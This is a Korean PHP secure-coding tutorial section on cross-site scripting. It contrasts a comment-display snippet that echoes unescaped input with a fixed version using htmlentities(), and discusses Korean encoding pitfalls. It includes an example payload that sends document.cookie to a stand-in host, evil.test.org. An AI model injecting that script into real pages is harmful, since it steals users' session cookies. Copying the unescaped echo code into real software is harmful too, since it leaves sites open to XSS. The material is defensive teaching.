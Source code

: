 # 7. 크로스 사이트 스크립팅
 크로스 사이트 스크립팅(XSS, Cross-Site Scripting)은 가장 유명한 공격 유형으로 모든 플랫폼에서 대부분의 응용프로그램들을 공격하고 있습니다. 모든 입력폼이 공격 대상이되고, 크로스 사이트 스크립팅의 취약점을 보완하기 위해 필터링과 이스케이프는 필수적인 요소입니다.

 EX) 페이지에 코멘트를 입력할 수 있는 폼
 ```
 <form action="comment.php" method="POST" />
    <p>Name: <input type="text" name="name" /><br />
    Comment: <textarea name="comment" rows="10" cols="60"></textarea><br />
    <input type="submit" value="Add Comment" /></p>
</form>
 ```
  form에서 받은 데이터를 다른 사용자에게 보여주는 코드는 아래와 같습니다.
```
<?php
    echo "<p>$name writes:<br />";
    echo "<blockquote>$comment</blockquote>";
?>
```
 위 코드는 $name과 $comment 변수 값을 매우 신뢰하고 있습니다. 하지만 스크립트 코드가 삽입된다면
```
<script>
    document.location = 'http://evil.test.org/steal.php?cookies=' + document.cookie
</script>
```
 위 코드는 공격자가 작성한 자바스크립트를 추가할 수 있게 허용한 것과 같습니다. 자신의 쿠기 값이 evil.test.org의 steal.php GET 파라미터로 전송되고 모든 내용을 읽을 수 있게 됩니다. 그래서 이를 말기 위해 입력 필터링하고, 출력을 이스케이프는 필수적으로 이루어져야 합니다. 클라이언트에 데이터를 보낼 때 이스케이프하기 위해 사용하는 대표적인 함수는 htmlentities() 입니다. 모든 특수 문자를 HTML 엔티티(entity)로 변환합니다. 
 *HTML 엔티티는 &약어;나 &#숫자;의 형태로 표현하는 것을 의미하며 <은 &lt;로 >은 &gt; 로 표현합니다. 여기서 htmlentities()는 iso-8859-1 인코딩을 기준으로 변환하기 때문에 일부 한글은 &#숫자;의 형태로 표현됩니다. PHP 4.3 이 후는 htmleneities의 세번째 인자로 인코딩을 지정할 수 있지만 한글 인코딩은 지원하지 않았습니다. 그래서 EUC-KR에서 온전하게 한글을 표현하려면 htmlspecialchars()를 사용해야 합니다. 하지만 htmlspecialchars()는 철벽 방어가 불가능합니다. UTF-8 인코딩으로 사이트를 구축하는 경우에는 htmlentities()의 세번째 인자를 UTF-8로 지정해서 사용할 수 있으며, 안전한 사이트를 구축을 할 수 있습니다. 하지만 PHP 4.x 일부 버전에서는 UTF-8에서 htmlentities($value, ENT_QUOTES, UTF-8)과 같은 형태에서 한글이 깨지는 버그를 가진 것도 있습니다.
 
### 좋은 예)
```
<?php
    $clean = array();
    $html = array();

    $html['name'] = htmlentities($clean['name'], ENT_QUOTES, 'UTF-8');
    $html['comment'] = htmlentities($clean['comment'], ENT_QUOTES, 'UTF-8');

    echo "<p>{ $html['name']} writes:<br />";
    echo "<blockquote>{ $html['comment']}</blockquote></p>";
?>
```
